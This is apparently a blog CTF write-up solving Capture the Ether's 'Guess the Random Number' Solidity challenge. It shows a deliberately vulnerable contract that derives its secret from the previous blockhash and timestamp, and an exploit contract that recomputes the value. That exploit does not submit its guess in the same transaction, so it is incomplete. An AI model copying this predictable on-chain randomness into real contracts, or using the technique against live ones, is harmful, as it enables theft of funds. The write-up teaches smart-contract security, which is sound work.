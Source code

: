 ```yaml
---
title: Capture the Ether (RareSkills Repo) - Guess the Random Number - Solution
date: '2024-07-01'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Capture the Ether - Guess the Random Number CTF
---
```


# Capture the Ether (RareSkills Repo) - Guess the Random Number - Solution

## Contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract GuessRandomNumber {
    uint8 answer;

    constructor() payable {
        require(msg.value == 1 ether);
        answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);

        if (n == answer) {
            (bool ok, ) = msg.sender.call{value: 2 ether}("");
            require(ok, "Fail to send to msg.sender");
        }
    }
}
```

## Solution

Note that the "random" number is generated based on known block parameters such as the previous block's hash and the current block's timestamp.
Therefore, we can simply replicate the "random" number by using the very same generation code in our exploit:

```solidity
contract ExploitContract {
    GuessRandomNumber public guessRandomNumber;
    uint8 public answer;

    function Exploit() public returns (uint8) {
        answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
        return answer;
    }
}
```
